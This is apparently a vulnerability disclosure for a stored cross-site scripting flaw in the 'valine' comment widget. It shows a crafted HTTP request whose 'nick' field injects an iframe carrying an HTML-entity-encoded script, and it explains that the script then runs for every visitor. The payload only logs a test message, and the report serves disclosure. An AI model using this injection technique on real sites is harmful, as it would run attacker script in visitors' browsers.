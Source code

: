 # Description

`valine` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce
1. Change the request body for adding comment as follows:

```
POST /1.1/classes/Comment HTTP/1.1
Host: XXX.api.lncld.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=UTF-8
Content-Length: 640
Origin: https://xxx.yyy.zzz
```

```json
{
    "comment": "Good! \n",
    "nick": "Alex\"</a><iframe width=1 height=1 srcdoc=\"&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#83;&#116;&#111;&#114;&#101;&#100;&#32;&#88;&#83;&#83;&#32;&#116;&#101;&#115;&#116;&#32;&#112;&#97;&#115;&#115;&#101;&#100;&#39;&#41;&#59;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;\"",
    "mail": "",
    "link": "",
    "ua": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Fire-fox/82.0",
    "url": "/en/prepare/prepare/",
    "QQAvatar": "",
    "ip": "1.2.3.4",
    "insertedAt": {
        "__type": "Date",
        "iso": "2020-11-04T08:30:47.526Z"
    },
    "ACL": {
        "*": {
            "read": true
        }
    }
}
```

2. This malicious request adds new comment. The HTML-encoded value of srcdoc attribute in request is:
   `<script>console.log('Stored XSS test passed');</script>`
3. The injected JavaScript executes on the vulnerable web-page for every visitor.
